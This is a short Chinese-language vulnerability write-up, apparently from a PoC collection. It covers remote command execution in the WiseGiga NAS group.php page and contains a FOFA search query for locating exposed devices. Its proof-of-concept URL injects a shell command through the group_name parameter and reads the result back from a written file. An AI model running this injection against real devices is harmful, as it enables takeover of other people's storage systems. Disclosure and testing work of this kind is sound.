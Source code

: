 # WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

```
WiseGiga NAS
```

## FOFA

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](./images/202206281144970.png)

验证POC

```
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![image-20220628114731029](./images/202206281147112.png)

```
/admin/1.txt
```

![image-20220628114740534](./images/202206281147595.png)